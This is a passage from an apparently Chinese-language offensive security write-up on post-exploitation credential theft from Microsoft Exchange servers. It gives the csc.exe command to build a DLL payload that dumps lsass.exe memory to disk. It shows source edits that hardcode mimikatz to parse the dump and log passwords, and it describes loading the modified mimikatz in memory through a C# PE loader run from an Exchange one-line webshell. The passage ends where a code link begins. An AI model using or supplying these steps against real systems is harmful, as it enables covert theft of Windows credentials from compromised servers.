 编译生成dll文件，命令如下：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library dumplsass.cs
```

生成的dumplsass.dll即为实现导出lsass.exe进程dmp文件的Payload数据

加载后获得lsass.exe进程的dmp文件，保存位置：`C:\Windows\Temp\lsass.bin`


## 0x04 通过内存加载PE文件实现内存加载Mimikatz并解析指定位置的dmp文件
---

这里分为两阶段：

1. 通过C++实现解析指定位置的dmp文件并提取hash，可以在Mimikatz的基础上进行修改
2. 通过C#实现内存加载PE文件的功能

### 1.通过C++实现解析指定位置的dmp文件并提取hash

mimikatz解析指定位置dmp文件的命令：

```
mimikatz.exe log "sekurlsa::minidump C:\Windows\Temp\lsass.bin" "sekurlsa::logonPasswords full" exit
```

修改mimikatz源码，涉及以下两部分：

手动传入命令参数，添加如下代码：

```
    argc = 5;
    argv[1] = L"log";
    argv[2] = L"sekurlsa::minidump C:\\Windows\\Temp\\lsass.bin";
    argv[3] = L"sekurlsa::logonpasswords full";
    argv[4] = L"exit";
```

指定日志保存路径为`C:\Windows\Temp\mimikatz.log`，修改以下代码：

```
#define MIMIKATZ_DEFAULT_LOG    L"C:\\Windows\\Temp\\" MIMIKATZ L".log"
```

编译后生成新的mimikatz.exe

### 2.通过C#实现内存加载PE文件的功能

使用[SharpPELoaderGenerater](https://github.com/3gstudent/Homework-of-C-Sharp/blob/master/SharpPELoaderGenerater.cs)读取新生成的mimikatz.exe，生成可用的内存加载代码SharpPELoader_x64.cs

**注：**

内存加载的实现细节可参考[《通过.NET实现内存加载PE文件》](https://3gstudent.github.io/%E9%80%9A%E8%BF%87.NET%E5%AE%9E%E7%8E%B0%E5%86%85%E5%AD%98%E5%8A%A0%E8%BD%BDPE%E6%96%87%E4%BB%B6)

修改SharpPELoader_x64.cs的格式，使其能够被Exchange一句话后门加载，完整代码已上传至github，地址如下：
